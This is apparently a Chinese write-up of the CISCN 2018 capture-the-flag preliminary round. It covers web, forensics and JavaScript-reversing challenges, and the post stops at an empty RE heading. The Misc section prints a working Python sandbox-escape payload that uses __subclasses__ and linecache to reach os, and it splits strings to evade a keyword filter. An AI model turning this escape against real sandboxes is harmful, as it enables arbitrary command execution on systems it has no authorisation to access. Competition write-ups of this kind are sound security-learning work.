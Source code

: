 ```yaml
---
layout: post
title: CISCN 2018 初赛 Write-up
date: 2018-05-28 15:25:24.000000000 +08:00
tags: writeup
---
```


多年不更新，趁有时间整理一下最近比赛的writeup.

## Web
### Easyweb
。。。找了半天的注入点发现是空密码我会告诉你？

### Picture
下载到的 PNG（实际是 JPG）尾部添加了 zlib 数据。

binwalk –e 提取之，发现是 base64 编码；解码之，获得一个文件头是“4B 50”的文件。

修改为“50 4B”，发现是压缩包，提示密码是“ZeroDivisionError: …………”
用 python 被零除的默认错误信息实验（integer division or modulo by zero）（感谢某lth大佬提供脑洞），成功解压

解压出的文件是 uuencoded，uudecode 之，获得 flag

### Flag_in_your_head 
Js 实际是 MD5 实现，但 binl 中添加了一个 ck 函数 

    function ck(s) {
        try {
            ic
        } catch (e) {
            return;
        }
        var a = [118, 104, 102, 120, 117, 108, 119, 124, 48,123,01,121];
        if (s.length == a.length) {
            for (i = 0; i < s.length; i++) {
                if (a[i] - s.charCodeAt(i) != 3)
                    return ic = false;
            }
            return ic = true;
        }
        return ic = false;
    } 

显而易见，将 A 的各元素 ASCII-3，获得 Token：*security-xbv*。传入，获得 flag.

## Misc
### Run
比较典型的 Python 沙盒逃逸。
首先先用 object 基类的__subclasses__子类内的 file 子类，可以构成文件读取：

    [].__class__.__base__.__subclasses__()[40]('/home/ctf/sandbox.py')

虽然不能直接 getshell，注意到退出时的错误信息 leak 出文件名，可以读取到源码。

此时的直接想法是利用 warnings.catch_warnings 类 linecache 引入的 os 模块，执行系统命
令；但是 func_globals 被 ls 规则过滤，故使用如下 payload:

    >>> p = ‘func_global’ + ‘s’
    >>> o = [].__class__.__base__.__subclasses__()[59].__init__.__func__.__getattribute__(p)['linecache'].__dict__.values()[12].__dict__.values()[144]
    >>> c = ‘l’ + ‘s /home/ctf/’
    >>> o(c)
    5c72a1d444cf3121a5d25f2db4147ebb
    bin
    cpython.py
    cpython.pyc
    sandbox.py
    >>> c = 'ca' + 't /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'
    >>> o(c)
    ciscn{62a20588ef9766b418537c763366ea0c}

## RE
### 